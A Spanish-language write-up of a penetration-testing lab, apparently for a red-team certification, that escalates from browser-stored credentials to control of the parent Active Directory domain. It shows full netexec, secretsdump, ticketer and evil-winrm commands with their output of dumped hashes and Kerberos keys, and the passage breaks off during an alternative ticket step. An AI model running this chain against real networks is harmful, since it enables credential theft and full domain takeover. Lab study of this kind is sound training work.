-rw-r--r--  1 privilege privilege  220 Jan 16  2025 .bash_logout
-rw-r--r--  1 privilege privilege 3771 Jan 16  2025 .bashrc
drwxr-xr-x 12 privilege privilege 4096 Jan 17  2025 .cache
drwx------ 11 privilege privilege 4096 Jan 21  2025 .config
drwxr-xr-x  2 privilege privilege 4096 Jan 16  2025 Desktop
drwxr-xr-x  2 privilege privilege 4096 Jan 16  2025 Documents
drwxr-xr-x  2 privilege privilege 4096 Jan 16  2025 Downloads
drwx------  3 privilege privilege 4096 Jan 16  2025 .gnupg
drwxr-xr-x  3 privilege privilege 4096 Jan 16  2025 .local
drwx------  4 privilege privilege 4096 Jan 16  2025 .mozilla
drwxr-xr-x  2 privilege privilege 4096 Jan 16  2025 Music
drwxr-xr-x  2 privilege privilege 4096 Jan 16  2025 Pictures
-rw-r--r--  1 privilege privilege  807 Jan 16  2025 .profile
drwxr-xr-x  2 privilege privilege 4096 Jan 16  2025 Public
-rw-------  1 privilege privilege    0 Jan 19  2025 .python_history
-rw-------  1 privilege privilege  187 Jan 17  2025 .sqlite_history
drwx------  2 privilege privilege 4096 Jan 16  2025 .ssh
-rw-r--r--  1 privilege privilege    0 Jan 16  2025 .sudo_as_admin_successful
drwxr-xr-x  2 privilege privilege 4096 Jan 16  2025 Templates
drwxr-xr-x  2 privilege privilege 4096 Jan 16  2025 Videos
~~~
Normalmente al ver este tipo de archivos, es posible encontrar credenciales normalmente en cache, asi que en mi parte suelo usar una herramienta (https://github.com/unode/firefox_decrypt)
Pero lastimosamente esto no funciono, asi que intentare ve todo manualmente.
~~~bash
cd /home/privilege/.mozilla/firefox/b2rri1qd.default-release
root@ubuntu-virtual-machine:/home/privilege/.mozilla/firefox/b2rri1qd.default-release# ls -la
total 11864
drwx------ 14 privilege privilege    4096 Jan 19  2025 .
drwx------  6 privilege privilege    4096 Jan 16  2025 ..
-rw-rw-r--  1 privilege privilege      24 Jan 19  2025 addons.json
-rw-rw-r--  1 privilege privilege    6660 Jan 17  2025 addonStartup.json.lz4
-rw-rw-r--  1 privilege privilege       0 Jan 19  2025 AlternateServices.txt
drwxr-xr-x  2 privilege privilege    4096 Jan 17  2025 bookmarkbackups
-rw-rw-r--  1 privilege privilege     216 Jan 17  2025 broadcast-listeners.json
drwx------  3 privilege privilege    4096 Jan 16  2025 browser-extension-data
-rw-------  1 privilege privilege  229376 Jan 16  2025 cert9.db
-rw-------  1 privilege privilege     161 Jan 16  2025 compatibility.ini
-rw-rw-r--  1 privilege privilege     939 Jan 16  2025 containers.json
-rw-r--r--  1 privilege privilege  229376 Jan 16  2025 content-prefs.sqlite
-rw-r--r--  1 privilege privilege   98304 Jan 16  2025 cookies.sqlite
drwx------  3 privilege privilege    4096 Jan 17  2025 crashes
-rw-r--r--  1 privilege privilege   98304 Jan 16  2025 credentialstate.sqlite
drwxr-xr-x  4 privilege privilege    4096 Jan 19  2025 datareporting
-rw-rw-r--  1 privilege privilege     633 Jan 16  2025 ExperimentStoreData.json
-rw-rw-r--  1 privilege privilege     985 Jan 16  2025 extension-preferences.json
-rw-rw-r--  1 privilege privilege   41280 Jan 19  2025 extensions.json
drwxr-xr-x  2 privilege privilege    4096 Jan 16  2025 extension-store
-rw-r--r--  1 privilege privilege 5242880 Jan 16  2025 favicons.sqlite
-rw-r--r--  1 privilege privilege  262144 Jan 17  2025 formhistory.sqlite
drwxr-xr-x  3 privilege privilege    4096 Jan 17  2025 gmp-gmpopenh264
-rw-rw-r--  1 privilege privilege     410 Jan 16  2025 handlers.json
-rw-------  1 privilege privilege  294912 Jan 16  2025 key4.db
lrwxrwxrwx  1 privilege privilege      16 Jan 17  2025 lock -> 127.0.1.1:+25657
drwx------  2 privilege privilege    4096 Jan 16  2025 minidumps
-rw-rw-r--  1 privilege privilege       0 Jan 17  2025 .parentlock
-rw-r--r--  1 privilege privilege   98304 Jan 17  2025 permissions.sqlite
-rw-------  1 privilege privilege     481 Jan 16  2025 pkcs11.txt
-rw-r--r--  1 privilege privilege 5242880 Jan 19  2025 places.sqlite
-rw-------  1 privilege privilege   11986 Jan 19  2025 prefs.js
-rw-r--r--  1 privilege privilege   65536 Jan 17  2025 protections.sqlite
drwx------  2 privilege privilege    4096 Jan 19  2025 saved-telemetry-pings
-rw-rw-r--  1 privilege privilege     371 Jan 16  2025 search.json.mozlz4
drwxrwxr-x  2 privilege privilege    4096 Jan 16  2025 security_state
-rw-rw-r--  1 privilege privilege     288 Jan 19  2025 sessionCheckpoints.json
drwxr-xr-x  2 privilege privilege    4096 Jan 19  2025 sessionstore-backups
-rw-rw-r--  1 privilege privilege     566 Jan 19  2025 sessionstore.jsonlz4
drwxr-xr-x  2 privilege privilege    4096 Jan 17  2025 settings
-rw-rw-r--  1 privilege privilege      18 Jan 16  2025 shield-preference-experiments.json
-rw-rw-r--  1 privilege privilege     907 Jan 17  2025 SiteSecurityServiceState.txt
drwxr-xr-x  6 privilege privilege    4096 Jan 16  2025 storage
-rw-r--r--  1 privilege privilege    4096 Jan 19  2025 storage.sqlite
-rwx------  1 privilege privilege      50 Jan 16  2025 times.json
-rw-r--r--  1 privilege privilege   98304 Jan 16  2025 webappsstore.sqlite
-rw-rw-r--  1 privilege privilege     634 Jan 19  2025 xulstore.json
~~~
Enumerando esa ruta, veo que existe una gran cantidad de archivos.
Pero recordando que existen ciertos usuarios con nombres como "john" y "child", busco meidante grep alguna coincidencia con dicho usuario.
~~~bash
root@ubuntu-virtual-machine:/home/privilege/.mozilla/firefox/b2rri1qd.default-release# grep -ri "john"
Binary file places.sqlite matches
Binary file bookmarkbackups/bookmarks-2025-01-16_17_j3PtiGn-nfOeaPPlOGSBmw==.jsonlz4 matches
Binary file bookmarkbackups/bookmarks-2025-01-17_17_+3ujRuispKnNVWI6ZWLQEQ==.jsonlz4 matches
~~~
De esa forma encuentro una coincidencia dentro del archivo "places.sqlite", esto es una base de datos asi que puede ser un buen lugar para guardar contraseñas, entonces enumero todo.
~~~bash
root@ubuntu-virtual-machine:/home/privilege/.mozilla/firefox/b2rri1qd.default-release# sqlite3 places.sqlite 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
moz_anno_attributes                 moz_keywords                      
moz_annos                           moz_meta                          
moz_bookmarks                       moz_origins                       
moz_bookmarks_deleted               moz_places                        
moz_historyvisits                   moz_places_metadata               
moz_inputhistory                    moz_places_metadata_search_queries
moz_items_annos                     moz_previews_tombstones
~~~
Primero enumerando todas las bases de datos, luego revisando una por una para ver si alguna tenia credenciales, una pequeña pista es que al buscar con grep, se ve un "bookmarkbackups" y en la base de datos existe una tabla con un nombre similar como "moz_bookmarks".
~~~bash
sqlite> select * from moz_bookmarks;
1|2||0|0||||1737028376389000|1737028407427000|root________|1|1
2|2||1|0|menu|||1737028376389000|1737028376683000|menu________|1|3
3|2||1|1|toolbar|||1737028376389000|1737028376773000|toolbar_____|1|3
4|2||1|2|tags|||1737028376389000|1737028376389000|tags________|1|1
5|2||1|3|unfiled|||1737028376389000|1737028407427000|unfiled_____|1|3
6|2||1|4|mobile|||1737028376397000|1737028376662000|mobile______|1|2
7|2||2|0|Mozilla Firefox|||1737028376683000|1737028376683000|2hqCSTYguEKz|0|1
8|1|3|7|0|Get Help|||1737028376683000|1737028376683000|w8bhWWymMHw6|0|1
9|1|4|7|1|Customize Firefox|||1737028376683000|1737028376683000|uctFzas86dQw|0|1
10|1|5|7|2|Get Involved|||1737028376683000|1737028376683000|z-X79YDQmgEh|0|1
11|1|6|7|3|About Us|||1737028376683000|1737028376683000|GeWYCw2g0FLJ|0|1
12|2||2|1|Ubuntu and Free Software links|||1737028376683000|1737028376683000|MxAMPgqX16gZ|0|1
13|1|7|12|0|Ubuntu|||1737028376683000|1737028376683000|QqE4CH5UIHOL|0|1
14|1|8|12|1|Ubuntu Wiki (community-edited website)|||1737028376683000|1737028376683000|nbf_eTKjwhpv|0|1
15|1|9|12|2|Make a Support Request to the Ubuntu Community|||1737028376683000|1737028376683000|ukdJ8dcfVTPm|0|1
16|1|10|12|3|Debian (Ubuntu is based on Debian)|||1737028376683000|1737028376683000|xgQMK5g3l2Zp|0|1
17|1|11|3|0|Getting Started|||1737028376773000|1737028376773000|Kt6IQ_eV70GT|0|1
18|1|16|5|0|http://192.168.98.30/admin/index.php?user=john@child.warfare.corp&pass=User1@#$%6|||1737028407427000|1737029666390000|tuXr2pTr03P2|1|
~~~
Efectivamente, se puede ver ciertas credenciales que apuntan al usuario "john" y a una ip que tenemos y existe "192.168.98.30".

### Obteniendo credenciales LSA
Asi que teniendo eso, procedo a probar si las credenciales son validas al 100%.
~~~bash
┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ sudo netexec smb ips_internas_ping.txt -u 'john' -p 'User1@#$%6' --continue-on-success
SMB         192.168.98.30   445    MGMT             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MGMT) (domain:child.warfare.corp) (signing:False) (SMBv1:False)                                                                                                                                                  
SMB         192.168.98.120  445    CDC              [*] Windows 10 / Server 2019 Build 17763 x64 (name:CDC) (domain:child.warfare.corp) (signing:True) (SMBv1:False)                                                                                                                                                    
SMB         192.168.98.2    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:warfare.corp) (signing:True) (SMBv1:False)                                                                                                                                                         
SMB         192.168.98.30   445    MGMT             [+] child.warfare.corp\john:User1@#$%6 (Pwn3d!)

SMB         192.168.98.120  445    CDC              [+] child.warfare.corp\john:User1@#$%6 

SMB         192.168.98.2    445    DC01             [-] warfare.corp\john:User1@#$%6 STATUS_LOGON_FAILURE 
~~~
Se puede ver que el usuario existe y tiene permisos elevados en la ip "192.168.98.30", esto significa que podemos hacer muchas cosas para obtener información, lo mas comun seria dumpear el NTDS, pero lastimosamente esta maquina no es un Domain Controler, asi que no se podria.
En este caso mi enumeracion consta de realizar 3 ataques.
- Dumpear el LSA para ver si existen usuarios logueados y sacar sus credenciales.
- Dumpear el SAM y SYSTEM para ver si tiene credenciales que se reúsan.
- Lanzar Lazagne para obtener algun tipo de credenciales.
Bien, como primera opcion vere si existen usuarios logueados.
~~~bash
┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ sudo netexec smb 192.168.98.30 -u john -p 'User1@#$%6' --loggedon-users
SMB         192.168.98.30   445    MGMT             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MGMT) (domain:child.warfare.corp) (signing:False) (SMBv1:False)                                                                                                                                                  
SMB         192.168.98.30   445    MGMT             [+] child.warfare.corp\john:User1@#$%6 (Pwn3d!)
SMB         192.168.98.30   445    MGMT             MGMT\Administrator             logon_server: MGMT
SMB         192.168.98.30   445    MGMT             CHILD\corpmngr                  logon_server: CDC
SMB         192.168.98.30   445    MGMT             CHILD\MGMT$                     logon_server: 
~~~
Al parecer si existe un usuario "corpmngr", asi que intentare ver el LSA.
~~~bash
──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ sudo netexec smb 192.168.98.30 -u john -p 'User1@#$%6' --lsa                            
SMB         192.168.98.30   445    MGMT             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MGMT) (domain:child.warfare.corp) (signing:False) (SMBv1:False)                                                                                                                                                  
SMB         192.168.98.30   445    MGMT             [+] child.warfare.corp\john:User1@#$%6 (Pwn3d!)
SMB         192.168.98.30   445    MGMT             [+] Dumping LSA secrets
SMB         192.168.98.30   445    MGMT             CHILD.WARFARE.CORP/john:$DCC2$10240#john#9855312d42ee254a7334845613120e61: (2025-01-17 14:47:56)
SMB         192.168.98.30   445    MGMT             CHILD.WARFARE.CORP/corpmngr:$DCC2$10240#corpmngr#7fd50bbab99e8ea7ae9c1899f6dea7c6: (2025-01-21 11:35:46)
SMB         192.168.98.30   445    MGMT             CHILD\MGMT$:aes256-cts-hmac-sha1-96:344c70047ade222c4ab35694d4e3e36de556692f02ec32fa54d3160f36246eec
SMB         192.168.98.30   445    MGMT             CHILD\MGMT$:aes128-cts-hmac-sha1-96:aa5b3d84614911fe611eafbda613baaf
SMB         192.168.98.30   445    MGMT             CHILD\MGMT$:des-cbc-md5:6402e0c20b89d386
SMB         192.168.98.30   445    MGMT             CHILD\MGMT$:plain_password_hex:4f005d003b006f0074005d003500760067002f0032007a0046004e0020004d00700023003600570031005000770041002600700055003d005a0047006100370033003e003b0032004600410059002a006b0046004400410069003e00530066006a0033006e0061007a004e0060003300590063005e0048006c005c0053003e003e0033003c007300500043007a002500300031004b00610060002000540033007a003f004200580048002f0068006d0052006f0027005b00520061003b003a0075002b0050004a005d006b003c006d004c00730045005d005b0074006c004b00760045005c00280059003a0066002000                                                             
SMB         192.168.98.30   445    MGMT             CHILD\MGMT$:aad3b435b51404eeaad3b435b51404ee:0f5fe480dd7eaf1d59a401a4f268b563:::
SMB         192.168.98.30   445    MGMT             dpapi_machinekey:0x34e3cc87e11d51028ffb38c60b0afe35d197627d
dpapi_userkey:0xb890e07ba0d31e31c758d305c2a29e1b4ea813a5
SMB         192.168.98.30   445    MGMT             corpmngr@child.warfare.corp:User4&*&*
~~~
Esto es una muy buena noticia, se tienen credenciales que pueden ser utilizados para obtener información en otra maquina, asi que pruebo que se puede hacer con ello.

### Ataque golden ticket
~~~bash
┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ sudo netexec smb ips_internas_ping.txt -u 'corpmngr' -p 'User4&*&*' --continue-on-success
SMB         192.168.98.2    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:warfare.corp) (signing:True) (SMBv1:False)                                                                                                                                                         
SMB         192.168.98.30   445    MGMT             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MGMT) (domain:child.warfare.corp) (signing:False) (SMBv1:False)                                                                                                                                                  
SMB         192.168.98.120  445    CDC              [*] Windows 10 / Server 2019 Build 17763 x64 (name:CDC) (domain:child.warfare.corp) (signing:True) (SMBv1:False)                                                                                                                                                     
SMB         192.168.98.2    445    DC01             [-] warfare.corp\corpmngr:User4&*&* STATUS_LOGON_FAILURE 
 
SMB         192.168.98.120  445    CDC              [+] child.warfare.corp\corpmngr:User4&*&* (Pwn3d!)
 
SMB         192.168.98.30   445    MGMT             [+] child.warfare.corp\corpmngr:User4&*&* 
~~~
Este usuario tambien tiene permisos privilegiados sobre la maquina "CDC", esto si es un Domain Controler porque tiene el puerto 88 kerberos abierto, pero no es el principal porque este es un subdominio (child.warfare.corp), y necesitamos acceso al dominio principal (warfare.corp).
Pero de igual manera se puede dumpear el NTDS esperando encontrar alguna credencial o hash para el Domain Controler principal.
~~~bash
┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ impacket-secretsdump 'child.warfare.corp/corpmngr:User4&*&*'@192.168.98.120
Impacket v0.14.0.dev0+20251117.163331.7bd0d5ab - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x1f708e4acbad10bdca483cab9456da02
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:baed2348444e297172df065ca8c92c5d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
CHILD\CDC$:aes256-cts-hmac-sha1-96:295c6735f8514fdb03e4f815038dfabd001682c6617639f926969d5b3d2753e0
CHILD\CDC$:aes128-cts-hmac-sha1-96:7c5c1d5bc7834cc7bbb6b179f60a6776
CHILD\CDC$:des-cbc-md5:5d838913b3452068
CHILD\CDC$:plain_password_hex:59a608b3b3c9efe6d800efd7b20efb2a55aac61f4c1e386c20094860961ead00c42160c2cfafa6bf0ecff551364367221bcf0669244dfdea491bfc34caa67a550dd8ee3a98b36bd00949370a7e9bd4d121ec217ea2a96e3009b952913147b3c23656910d2647503817ff06ee1065e244c733564f70c0413ac03c42212ea7f5816600f550bdc2379ac512bf2c6484920ac5f190afdfccc81fcf5ed818e930bb3517102d908476ac91e1cecee97080d1979092789541411a01dd7ffb9eb46ecf1bfda89d6de21091c6375f0979134fdb506c624df40a279bae2e67e607aff10c4541071ca5f8758e567727eeba35181cd7
CHILD\CDC$:aad3b435b51404eeaad3b435b51404ee:2c1c25f7efdb5f445fd9607bca98cdf6:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xf9e5cb0452350da239e70d692e67a5cc857a8dfd
dpapi_userkey:0xf349f2325f7dbc9b6817f715c717c000d630d206
[*] NL$KM 
 0000   DF 88 5A CF A1 68 07 4C  C8 4D E0 93 AF 76 09 3E   ..Z..h.L.M...v.>
 0010   72 6C D0 92 E9 EF 9C 72  D6 FE 59 C6 CB B7 03 82   rl.....r..Y.....
 0020   D8 96 C9 56 9B 67 DC DA  C8 71 DD 77 B9 69 16 C8   ...V.g...q.w.i..
 0030   C1 18 7D 40 C1 18 47 4C  48 1D DF 62 A7 C0 46 82   ..}@..GLH..b..F.
NL$KM:df885acfa168074cc84de093af76093e726cd092e9ef9c72d6fe59c6cbb70382d896c9569b67dcdac871dd77b96916c8c1187d40c118474c481ddf62a7c04682
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a8124cbf8513e07f1eeb0026c4d9de2:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e57dd34c1871b7a23fb17a77dec9b900:::
child.warfare.corp\john:1104:aad3b435b51404eeaad3b435b51404ee:b6f7e9a9a92eaa9ecffb698657dfab36:::
child.warfare.corp\corpmngr:1106:aad3b435b51404eeaad3b435b51404ee:4cb3933610b827a281ec479031128cc6:::
CDC$:1000:aad3b435b51404eeaad3b435b51404ee:2c1c25f7efdb5f445fd9607bca98cdf6:::
MGMT$:1107:aad3b435b51404eeaad3b435b51404ee:0f5fe480dd7eaf1d59a401a4f268b563:::
WARFARE$:1103:aad3b435b51404eeaad3b435b51404ee:6372f35398782f9d5d8df51efa69bcf3:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2
krbtgt:aes128-cts-hmac-sha1-96:806d6ea798a9626d3ad00516dd6968b5
krbtgt:des-cbc-md5:ba0b49b6b6455885
child.warfare.corp\john:aes256-cts-hmac-sha1-96:18f8c46797a20dcc386c801fc343dfb2a93789e2826f8c2508adbd2a4d6dbc4c
child.warfare.corp\john:aes128-cts-hmac-sha1-96:a25860dff7e2ee7ac2924aa30be48c03
child.warfare.corp\john:des-cbc-md5:9d7657c8983d893e
child.warfare.corp\corpmngr:aes256-cts-hmac-sha1-96:080d9cbb6548a9f91feaaefd9dce9cd4ce1147edf8bdb275ae826679750c58aa
child.warfare.corp\corpmngr:aes128-cts-hmac-sha1-96:e3963f5140c0c6241bef30d054503f11
child.warfare.corp\corpmngr:des-cbc-md5:64c1d5df0bd9c767
CDC$:aes256-cts-hmac-sha1-96:295c6735f8514fdb03e4f815038dfabd001682c6617639f926969d5b3d2753e0
CDC$:aes128-cts-hmac-sha1-96:7c5c1d5bc7834cc7bbb6b179f60a6776
CDC$:des-cbc-md5:f1b9a2a7a898c16b
MGMT$:aes256-cts-hmac-sha1-96:344c70047ade222c4ab35694d4e3e36de556692f02ec32fa54d3160f36246eec
MGMT$:aes128-cts-hmac-sha1-96:aa5b3d84614911fe611eafbda613baaf
MGMT$:des-cbc-md5:6402e0c20b89d386
WARFARE$:aes256-cts-hmac-sha1-96:54e93c1255689672a0f8b57726d207d913e51a3d761d6027be196f585e7cb893
WARFARE$:aes128-cts-hmac-sha1-96:6813c6b607520054e9806e37f1c8e720
WARFARE$:des-cbc-md5:70858a315b6167d5
[*] Cleaning up...
~~~
Al realizar el ataque con impacket-secretsdump, no veo hashes ni credenciales pertenecientes al dominio principal como "WARFARE", solo veo un hash pero el indicador RID "1103" solo indica la relacion de confianza mas no se podria operar con ese hash.
En este punto se me ocurre correr LazaGne en el equipo y recolectar todo tipo de informacion sobre cerdenciales, tickets y todo lo posible.

Pero antes de ello, al existir una relación de confianza, lo mas comun es que como yo tengo acceso al subdominio y este presenta kerberos, entonces con el hash del krbtgt podría sacar un ticket impersonando al administrator del dominio principal o al mismo Domain Controller, este tipo de ataque se llama "Golden Ticket"
Para realizar este tipo de ataque se necesita el RID tanto del subdominio como del dominio principal, tambien el RID del grupo al que se quiera impersonar. Para obtener ello se usaran herramientas de impacket.
Primero para el subdominio.
~~~bash
┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ lookupsid.py 'child.warfare.corp/corpmngr:User4&*&*'@192.168.98.120
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at 192.168.98.120
[*] StringBinding ncacn_np:192.168.98.120[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-3754860944-83624914-1883974761
500: CHILD\Administrator (SidTypeUser)
501: CHILD\Guest (SidTypeUser)
502: CHILD\krbtgt (SidTypeUser)
512: CHILD\Domain Admins (SidTypeGroup)
513: CHILD\Domain Users (SidTypeGroup)
514: CHILD\Domain Guests (SidTypeGroup)
515: CHILD\Domain Computers (SidTypeGroup)
516: CHILD\Domain Controllers (SidTypeGroup)
517: CHILD\Cert Publishers (SidTypeAlias)
520: CHILD\Group Policy Creator Owners (SidTypeGroup)
521: CHILD\Read-only Domain Controllers (SidTypeGroup)
522: CHILD\Cloneable Domain Controllers (SidTypeGroup)
525: CHILD\Protected Users (SidTypeGroup)
526: CHILD\Key Admins (SidTypeGroup)
553: CHILD\RAS and IAS Servers (SidTypeAlias)
571: CHILD\Allowed RODC Password Replication Group (SidTypeAlias)
572: CHILD\Denied RODC Password Replication Group (SidTypeAlias)
1000: CHILD\CDC$ (SidTypeUser)
1101: CHILD\DnsAdmins (SidTypeAlias)
1102: CHILD\DnsUpdateProxy (SidTypeGroup)
1103: CHILD\WARFARE$ (SidTypeUser)
1104: CHILD\john (SidTypeUser)
1106: CHILD\corpmngr (SidTypeUser)
1107: CHILD\MGMT$ (SidTypeUser)
~~~
Ahora para el dominio principal.
~~~bash
┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ lookupsid.py 'child.warfare.corp/corpmngr:User4&*&*'@192.168.98.2  
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at 192.168.98.2
[*] StringBinding ncacn_np:192.168.98.2[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-3375883379-808943238-3239386119
498: WARFARE\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: WARFARE\Administrator (SidTypeUser)
501: WARFARE\Guest (SidTypeUser)
502: WARFARE\krbtgt (SidTypeUser)
512: WARFARE\Domain Admins (SidTypeGroup)
513: WARFARE\Domain Users (SidTypeGroup)
514: WARFARE\Domain Guests (SidTypeGroup)
515: WARFARE\Domain Computers (SidTypeGroup)
516: WARFARE\Domain Controllers (SidTypeGroup)
517: WARFARE\Cert Publishers (SidTypeAlias)
518: WARFARE\Schema Admins (SidTypeGroup)
519: WARFARE\Enterprise Admins (SidTypeGroup)
520: WARFARE\Group Policy Creator Owners (SidTypeGroup)
521: WARFARE\Read-only Domain Controllers (SidTypeGroup)
522: WARFARE\Cloneable Domain Controllers (SidTypeGroup)
525: WARFARE\Protected Users (SidTypeGroup)
526: WARFARE\Key Admins (SidTypeGroup)
527: WARFARE\Enterprise Key Admins (SidTypeGroup)
553: WARFARE\RAS and IAS Servers (SidTypeAlias)
571: WARFARE\Allowed RODC Password Replication Group (SidTypeAlias)
572: WARFARE\Denied RODC Password Replication Group (SidTypeAlias)
1000: WARFARE\DC01$ (SidTypeUser)
1101: WARFARE\DnsAdmins (SidTypeAlias)
1102: WARFARE\DnsUpdateProxy (SidTypeGroup)
1103: WARFARE\CHILD$ (SidTypeUser)
~~~
Con esto se obtuvieron los datos SID tanto del dominio y subdominio, se tiene el RID de un grupo poderoso como "512" (tambien se podria con grupos como 516, 519), se tiene el id del usuario con el que impersonaremos los permisos sobre el dominio principal, entonces ya se puede armar el golden ticket.
~~~bash
┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ impacket-ticketer -domain child.warfare.corp -aesKey ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2 -domain-sid S-1-5-21-3754860944-83624914-1883974761 -groups 512 -user-id 1106 -extra-sid S-1-5-21-3375883379-808943238-3239386119-516,S-1-5-9 'corpmngr' 
Impacket v0.14.0.dev0+20251117.163331.7bd0d5ab - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for child.warfare.corp/corpmngr
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in corpmngr.ccache

~~~
Esto genera un ticket para el usuario "corpmngr" pero con permisos especiales sobre el dominio principal, ahora lo ideal seria obtener un ticket de servicio con LDAP o CIFS para realizar el dumpeado del NTDS del dominio principal, pero impacket hace esto automaticamente, asi que simplemente se puede realizar un dumpeado del NTDS con el ticket que tenemos.
Primero importar el ticket en cache.
~~~bash
┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ export KRB5CCNAME=corpmngr.ccache
~~~
Ahora si dumpear el NTDS del dominio principal.
~~~bash
┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ impacket-secretsdump -k -no-pass child.warfare.corp/corpmngr@dc01.warfare.corp -just-dc-user WARFARE/administrator

Impacket v0.14.0.dev0+20251117.163331.7bd0d5ab - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a2f7b77b62cd97161e18be2ffcfdfd60:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:ca1d92ce23046a58b1cec292376a7d3ec6de02176bf44fb50fede1db46fec183
Administrator:aes128-cts-hmac-sha1-96:33d3f5778fade9945053a05ce2f18445
Administrator:des-cbc-md5:3ba88a586240f423
[*] Cleaning up...
~~~
Con ello se tiene el hash de administrator del dominio principal, por lo que se tendria control total del dominio, para comprobarlo se ingresa por winrm.
~~~bash
┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ evil-winrm -i 192.168.98.2 -u "administrator" -H 'a2f7b77b62cd97161e18be2ffcfdfd60'
                                        
Evil-WinRM shell v3.7
                                        
*Evil-WinRM* PS C:\Users\Administrator.DC01\Documents> whoami
warfare\administrator
*Evil-WinRM* PS C:\Users\Administrator.DC01\Documents> net user administrator
User name                    Administrator
Full Name
Comment                      Built-in account for administering the computer/domain
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/17/2025 4:10:27 PM
Password expires             2/28/2025 4:10:27 PM
Password changeable          1/18/2025 4:10:27 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/21/2025 5:19:05 PM

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *Group Policy Creator *Domain Users
                             *Domain Admins        *Schema Admins
                             *Enterprise Admins
The command completed successfully.
~~~
Con ello se tiene CONTROL TOTAL SOBRE EL DOMINIO.

### Alternativa a ejecución golden ticket
Como bien se dijo, lo mas correcto seria generar el golden ticket, y despues generar otro ticket de servicio especifico para dumpear el NTDS, esta forma igual la explica el writeup oficial asi que lo colocare como alternativa.
~~~
┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ ticketer.py -domain child.warfare.corp -aesKey ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2 -domain-sid S-1-5-21-3754860944-83624914-1883974761 -groups 516 -user-id 1106 -extra-sid S-1-5-21-3375883379-808943238-3239386119-516,S-1-5-9 'corpmngr'

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart

[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in corpmngr.ccache

┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ export KRB5CCNAME=corpmngr.ccache
                                                                            
┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ getST.py -spn 'CIFS/dc01.warfare.corp' -k -no-pass child.warfare.corp/corpmngr -debug
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[+] Impacket Library Installation Path: /home/kali/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket
[+] Using Kerberos Cache: corpmngr.ccache
[+] Returning cached credential for KRBTGT/CHILD.WARFARE.CORP@CHILD.WARFARE.CORP
[+] Using TGT from cache
[+] Username retrieved from CCache: corpmngr
[*] Getting ST for user
[+] Trying to connect to KDC at CHILD.WARFARE.CORP:88
[+] Trying to connect to KDC at WARFARE.CORP:88
[*] Saving ticket in corpmngr@CIFS_dc01.warfare.corp@WARFARE.CORP.ccache
                                                                            
┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
